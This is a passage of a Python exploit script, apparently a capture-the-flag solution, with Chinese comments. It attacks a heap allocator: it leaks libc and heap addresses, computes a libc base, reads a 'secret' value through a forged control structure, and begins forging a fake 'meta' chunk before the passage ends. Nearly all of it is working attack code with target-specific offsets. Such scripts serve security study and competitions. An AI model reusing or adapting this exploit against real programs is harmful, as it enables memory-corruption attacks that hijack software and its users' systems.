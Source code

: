 ```python
ru('0x27:')
i1 = int(r(2),16)
i2 = int(r(2),16)
i3 = int(r(2),16)
i4 = int(r(2),16)
i5 = int(r(2),16)
i6 = int(r(2),16)
data = i6 * 0x10000000000 + i5*0x100000000 + i4 * 0x1000000
data +=i3 * 0x10000 + i2*0x100+i1
lg('data',data)
libc_base = data - 0x7eff9ec45060 + 0x7eff9ec49000
mal_cont = libc_base + 0xB4AC0# secret_addr
lg('libc_base',libc_base)
lg('mal_cont',mal_cont)
r(60-6)
i2 = int(r(2),16)
i3 = int(r(2),16)
i4 = int(r(2),16)
i5 = int(r(2),16)
i6 = int(r(2),16)
base20 = i6 * 0x10000000000 + i5*0x100000000 + i4 * 0x1000000
base20 +=i3 * 0x10000 + i2*0x100+0xc0
lg('base20',base20)# 3place（指向内容）
#---------------------------------------
# leak secret 
delete(0x60,'3')
delete(0x60,'2')
pay = 0x20*'x'+p64(base20+0xc0)[:6]# 设置引索
add(0x60,'pad1',0x28,pay)
fake_control = p64(base20+0xc0)+p64(mal_cont)+p64(1)+p64(8)+p64(base20-0x60)[:6]#0x30 header这里引索也无所谓
add(0x60,'3',0x28,fake_control)# fake 2crl->3.con
show(0x60,'\x80')
ru('0x8:')
i1 = int(r(2),16)     
i2 = int(r(2),16)
i3 = int(r(2),16)
i4 = int(r(2),16)
i5 = int(r(2),16)
i6 = int(r(2),16)    
i7 = int(r(2),16)    
i8 = int(r(2),16)    
secret = i6 * 0x10000000000 + i5*0x100000000 + i4 * 0x1000000
secret+= i3 * 0x10000 + i2*0x100+i1  
secret+= i7 * 0x1000000000000 + i8*0x100000000000000
lg('secret',secret)
stdout = libc_base+0xb4280
lg('stdout',stdout)
#----------------------------------------------
# 伪造fakemeta入链
delete(0x60,'pad1')
delete(0x60,'3')
delete(0x60,'1')

sizeclass = 10
# fake crl and 设置引索 for del
pay = p64(base20-0x60)*2+p64(1)+p64(8)+p64(base20+0x60)[:6] # -0x60 libc_base
add(0x1f,'10',0x28,pay)

off = 0x3050# data+off=0x7FBAF17770B0 定位lastpage

fake_meta = ''
fake_meta = fake_meta.ljust(0x1000-0x90,'a')# 填充至最后一页
```
